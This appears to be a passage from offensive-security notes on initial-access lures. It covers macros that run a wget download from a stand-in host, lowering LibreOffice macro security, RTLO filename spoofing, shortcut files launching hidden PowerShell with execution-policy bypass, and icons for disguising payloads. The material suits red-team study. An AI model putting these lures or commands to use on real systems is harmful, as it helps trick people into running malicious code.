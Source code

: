 ```vb
    Auto_Open
End Sub
```

### Linux
LibreOffice has good security defaults! By default, only signed macros from trusted sources can run. To run your macros, you will have to lower the security level.

To lower the security level, go to "Tools" -> "Options" -> "Security" tab -> "Macro Security" and set it to Medium or Low.

You can get a shell with linux macros, and then do whatever you want. For example:
```vb
Sub DownloadFile
    Shell("wget https://example.com/file.zip -O /path/to/save/file.zip")
End Sub
```

## RTLO Character
Get the character here: <https://unicode-explorer.com/c/202E>

### Explanation
The RTLO character stands for Right-To-Left Override. It is a non-printing Unicode character, represented by the Unicode character code U+202E1. This character is used to write languages that are read in the right-to-left manner, such as Hebrew, Arabic, Aramaic, and Urdu. It takes the input and literally just flips the text the other way round.

The RTLO character can be used to reverse the display of text that follows it. For example, a Windows screensaver executable named March 25 \u202Excod.scr will display as March 25 rcs.docx. Adversaries may abuse the RTLO character as a means of tricking a user into executing what they think is a benign file type.

## LNK files
Make a shortcut file by right-clicking and selecting "New&rarr;Shortcut"
When asked for the program you would like to use, you can have it run a powershell command like:

```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -Command "[Malicious PowerShell Script Here]"
```

## Using the .ico files on the windows system
These two folders contain a lot of ico files for you to use
+ Windows/System32/shell32.dll
+ Windows/System32/imageres.dll

## exe files
In C++, you can modify the windows system using the `<windows.h>` library.

### Running cmd from your program
```cpp
 if (ShellExecuteA(NULL, "open", "notepad.exe", NULL, NULL, SW_SHOWNORMAL) <= (HINSTANCE)32) {
```
Parameters:
+ (NULL): No parent window is associated.
+ ("open"): Dictates the action, which is to "open".
+ ("notepad.exe"): Denotes the application's name.
